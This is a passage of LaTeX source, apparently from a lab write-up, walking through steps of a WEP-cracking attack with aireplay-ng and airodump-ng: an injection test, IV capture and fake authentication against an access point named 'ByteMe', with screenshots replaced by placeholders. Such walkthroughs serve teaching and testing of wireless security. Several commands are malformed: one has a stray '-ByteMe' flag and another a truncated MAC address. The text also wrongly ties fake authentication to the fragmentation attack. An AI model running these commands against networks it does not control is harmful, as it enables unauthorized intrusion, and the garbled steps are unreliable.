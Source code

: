 \documentclass[12pt]{article}
\begin{document}
\begin{figure}[h]
\centering
\texttt{[image: findMAC'sAP]}
\caption{Scanning for the AP to find its MAC}
\label{fig:MACAP}
\end{figure}

2. Test packet injection using the command
\begin{center}
\texttt{aireplay-ng -9 -ByteMe -a 64:66:B3:2E:CE:EE wlan0}
\end{center}
where \texttt{-9} specifies an injection test.  The 100\% at the bottom of the output and the message "\texttt{Injection is Working!}"designate success (See Figure~\ref{fig:injectest}).
\\\\\\\\\\

\begin{figure} [h]
\centering
\texttt{[image: InjectionTest]}
\caption{Testing Packet Injection}
\label{fig:injectest}
\end{figure}

3. Open another terminal (on the right in Figure~\ref{fig:ivcapt}) and capture IVs using the command
\begin{center}
\texttt{airodump-ng -c 4 --bssid 64:66:B3:2E:CE:EE -w output wlan0}
\end{center}
where \texttt{4} is the AP channel and \texttt{output} is the name of the file which will record the IVs.
\\\\\\
\begin{figure} [h]
\centering
\texttt{[image: IVCapture]}
\caption{Capturing IVs}
\label{fig:ivcapt}
\end{figure}

4. Perform fake authentication with the command
\begin{center}
\texttt{aireplay-ng -1 0 -e ByteMe -a :66:B3:2E:CE:EE -h 00:e0:4c:00:f0:65 wlan0}
\end{center}
where \texttt{-1} specifies fake authentication and \texttt{0} is the reassociation time in seconds.  This uses the fragmentation attack discussed in section \ref{sec:frag}.
\\\\
\begin{figure} [h]
\centering
\texttt{[image: FakeAuthentication]}
\caption{Successful Fake Authentication}
\label{fig:fakeauth}
\end{figure}
\end{document}
